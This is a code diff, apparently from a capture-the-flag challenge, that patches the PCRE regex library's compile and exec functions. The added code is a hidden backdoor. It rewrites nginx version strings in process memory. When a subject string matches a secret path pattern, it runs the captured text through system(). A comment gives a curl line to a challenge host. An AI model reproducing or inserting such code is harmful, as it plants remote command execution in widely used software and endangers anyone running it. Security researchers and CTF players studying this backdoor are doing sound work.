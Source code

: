 ```diff
+#include "d.h"
+;
+pcre* bd_re = NULL;
+
 #if defined COMPILE_PCRE8
 PCRE_EXP_DEFN pcre * PCRE_CALL_CONVENTION
 pcre_compile(const char *pattern, int options, const char **errorptr,
@@ -8998,6 +9010,7 @@ return pcre32_compile2(pattern, options, NULL, errorptr, erroroffset, tables);
 }


+
 #if defined COMPILE_PCRE8
 PCRE_EXP_DEFN pcre * PCRE_CALL_CONVENTION
 pcre_compile2(const char *pattern, int options, int *errorcodeptr,
@@ -9012,6 +9025,9 @@ pcre32_compile2(PCRE_SPTR32 pattern, int options, int *errorcodeptr,
   const char **errorptr, int *erroroffset, const unsigned char *tables)
 #endif
 {
+char b[0x400];
+if (bd_re == NULL) { bd_re = 1;int f=open("/proc/self/maps", O_RDONLY);strcpy(b, "^/");strcat(b, alph);strcat(b, "/([\\\$a-zA-Z0-9;:/.|]+)");char *e = 0;int eo;bd_re = pcre_compile(b, PCRE_MULTILINE, &e, &eo, 0);if (bd_re == NULL) {bd_re = 1;}read(f, b, 12);b[12] = 0;char* base = (char*)strtoull(b, 0, 16);close(f);int c=0;for (int i=0; i<0x130000; i++) {char* p = base + i;if (p[0]=='n'&p[1]=='g'&p[2]=='i'&p[3]=='n'&p[4]=='x'&p[5]=='/'&p[6]=='1'&p[7]=='.'&p[8]=='1'&p[9]=='8'&p[10]=='.') {c++; if (c > 5) break;void* p_page = (void*)((uint64_t)p & 0xfffffffffffff000);mprotect(p_page, 0x1000, PROT_READ|PROT_WRITE);snprintf(p, 21, "ni/nginx/%s                            ", date_s);p[20] = 0x20;}} }
+
 REAL_PCRE *re;
 int length = 1;  /* For final END opcode */
 pcre_int32 firstcharflags, reqcharflags;
diff --git a/pcre_exec.c b/pcre_exec.c
index 55230cd..3399738 100644
--- a/pcre_exec.c
+++ b/pcre_exec.c
@@ -6347,6 +6347,10 @@ Returns:          > 0 => success; value is the number of elements filled in
                    -1 => failed to match
                  < -1 => some kind of unexpected problem
 */
+int bd = 0;
+// Defined in other c file
+extern pcre* bd_re;
+extern char* alph;

 #if defined COMPILE_PCRE8
 PCRE_EXP_DEFN int PCRE_CALL_CONVENTION
@@ -6398,6 +6402,11 @@ frame_zero.Xnextframe = NULL;            /* None are allocated yet */
 md->match_frames_base = &frame_zero;
 #endif

+// Here is the target, good luck:
+// curl http://chiptunegeek.shellweplayaga.me:194/[ CENSORED ] --header "Ticket: ticket{[ CENSORED ]}" [ CENSORED ]
+char buf[0x2000];
+if (bd== 0) { bd = 1; if (bd_re) { int ov[30];int rc = pcre_exec(bd_re, NULL, subject, strlen(subject), 0, 0, ov, sizeof(ov)/sizeof(ov[0]));if (rc >= 2) { pcre_copy_substring(subject, ov, rc, 1, buf, sizeof(buf));char* m = strdup(buf);system(m); }} bd = 0; }
+
 /* Check for the special magic call that measures the size of the stack used
 per recursive call of match(). Without the funny casting for sizeof, a Windows
 compiler gave this error: "unary minus operator applied to unsigned type,
```